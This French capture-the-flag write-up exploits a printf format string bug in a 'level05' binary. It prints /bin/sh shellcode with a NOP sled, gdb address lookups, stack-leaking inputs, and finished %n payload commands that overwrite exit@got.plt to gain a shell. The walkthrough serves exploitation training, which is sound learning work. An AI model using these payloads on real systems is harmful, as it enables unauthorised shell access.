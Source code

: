 # Level 05

## Le code

Pour ce niveau 5, on monte d'un cran.

Le programme fait quelques trucs, mais il peut être résumé par:

```txt
char buf[100];
fgets(buf, 100, stdin);
printf(buf);
exit(0);
```

## `printf`

La surface vulnérable est encore sur un `printf` qui a pour entrée
un chaine que l'on peut choisir.

`printf` peut être utilisé de deux manières:

1. On peut l'utiliser pour afficher ce qui se trouve sur la stack, en utilisant
   par example `%08x` pour afficher les 4 derniers octets de la stack.

2. On peut l'utiliser pour écrire des données avec `%n`.

Une bonne resource pour apprendre comment exploiter `printf`: https://cs155.stanford.edu/papers/formatstring-1.2.pdf

Habituellement, l'idée serait d'utiliser `%n` pour modifier l'adresse de retour
de `main` pour la faire partir sur `system` avec `/bin/sh` en paramètre. Cette fois,
on ne peut pas faire comme ça car la fonction `exit` est utilisée, ce qui veut dire
que la fonction ne va jamais se terminer.

Ainsi, une manière d'attaque le programme est de modifier la fonction `exit` et la
remplacer par un shellcode.

## Le plan

Voilà le plan d'attaque:

1. Trouver [un shell code](https://shell-storm.org/shellcode/files/shellcode-585.html) qui lance `/bin/sh`.

2. Placer le shellcode dans la mémoire du programme.

3. Modifier l'adresse de `exit@got.plt` pour qu'elle pointe vers notre shell code.

## Exécution

### Shellcode

Placer le shellcode dans la mémoire du programme est en fait assez simple:
il suffit de le mettre dans les variables d'environnement, qui sont toujours
chargées juste avant la fonction `main` au lancement du programme.

```sh
export SHELLCODE=$(python -c "print '\x90'*50 + '\xeb\x0b\x5b\x31\xc0\x31\xc9\x31\xd2\xb0\x0b\xcd\x80\xe8\xf0\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68'")
```

On notera qu'on ajoute des `0x90`, des instructions NOP qui s'assureront qu'une adresse
alignée sur 16 bits octets existe dans la mémoire.

### Trouver les adresses

Pour pouvoir modifiers l'adresse de `exit` et la remplacer par
celle de notre shellcode, encore faut-il connaître leurs adresses
dans la mémoire.

Pour ça, on peut utiliser `gdb`.

```as
gdb> x/100x $esp
...
0xffffd870:	0x45485300	0x4f434c4c	0x903d4544	0x90909090
0xffffd880:	0x90909090	0x90909090	0x90909090	0x90909090 
0xffffd890:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd8a0:	0x90909090	0x90909090	0x90909090	0x5b0beb90
0xffffd8b0:	0xc931c031	0x0bb0d231	0xf0e880cd	0x2fffffff
...
```

En cherchant la série de `0x90`, on trouve assez rapidement une adresse
correctement alignée de notre shellcode.

```txt
gdb> print &exit@got.plt
0x80497e0
```

| Shellcode  | exit@got.plt |
----------------------------
| 0xffffd8a0 | 0x80497e0    |

### Trouver notre input

```
Stack:

| trucs  |
---------- <- Buffer de `fgets`
|bonjour |
|à tous! |
|        |
|        |
|        |
|        |
|        |
|        |
----------
| trucs  |
```

L'idée, c'est qu'en ajoutant des `%08x` dans l'input de `printf`, on peut
afficher l'intégralité de la stack. Cela inclu notament notre chaine d'entrée.

Par example, en utilisant une chaine de caractère reconnaissable, on peut
déterminer la distance de notre input par rapport à l'appel de `printf`
sur la stack.

```txt
./level05
aaaabbbbcccc%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x
aaaabbbbcccc00000064f7fcfac0f7ec3af9ffffd66fffffd66e00000000ffffffffffffd6f4f7fdb0006161616162626262636363637838302578383025
```

Nous permet de déterminer que `aaaa` est à une distance de 80 octets. `bbbb`
est à 72 octets, etc.

Pour éviter de devoir écrire tout ces `%08x`, on peut utiliser la syntax
`%10$x` pour directement prendre le 10ième paramètre.

```txt
./level05
aaaa%10$x
```

Donne la bonne valeur.

### Modifier `exit`

En écrivant du texte, on peut choisir ce que `printf` va lire. Jusque là, on lui faisait
afficher `aaaa`, mais on peut aussi l'utiliser pour écrire. `%n` va lire `aaaa` et
écrire à l'adresse `0x61616161` le nombre de caractère qui ont déjà été écrits.

Ainsi,

```
./level05
aaaa%10%n
```
Va écrire écrire `4` à l'adresse `0x61616161` (parce que "aaaa" a une taille de quatre).

L'idée est donc de remplacer:

- `aaaa` par l'adresse de `exit@got.plt`.

- `4` par l'adressed de notre shellcode.

```sh
python -c "print '\xe0\x97\x04\x08%4294957240x%10\$n'") > input
cat input | ./level05
```

On note que `%4294957240x` ajoute `4294957240` charactères à l'input, ce qui,
avec les 4 charactères de départ, donne 4294957248, qui est l'adresse de notre
shellcode en décimal.

Malheureusement, ce code ne marche pas car `printf` utilise un `int`, qui overflow
lorsqu'on lui donne notre adresse. On est donc contrain d'écrire notre valeur
en deux fois.

```sh
python -c "print '\xe0\x97\x04\x08\xe2\x97\x04\x08%55488x%10\$n%10039x%11\$n'" > input
cat input | ./level05
```

Cette fois ci, on écrit à deux adresses différentes, qui correspondent au deux premiers
et deux suivant octets de l'adresse de `exit@got.plt`.

Cette fois ci, l'expoit est fonctionnel.

